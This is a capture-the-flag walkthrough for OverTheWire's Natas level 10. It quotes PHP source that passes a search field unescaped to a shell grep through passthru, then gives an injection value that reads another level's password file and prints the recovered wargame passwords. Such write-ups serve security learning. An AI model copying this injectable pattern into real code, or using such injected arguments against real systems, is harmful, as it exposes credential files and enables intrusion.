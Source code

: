 # Over The Wire -- Natas 10

## Server URL
```
http://natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu@natas10.natas.labs.overthewire.org
```

## Solution
We can see the php source code :
```php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas10", "pass": "<censored>" };</script></head>
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Same as last time but we can't use the characters `[` `]` `;` `|` `&`.
Well we can do basically the same thing but use `#` for commenting the rest of the command :
```
. /etc/natas_webpass/natas11 #
```

Which result in the command
```
grep -i . /etc/natas_webpass/natas11 # dictionary.txt
```

We get the password :
```
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```
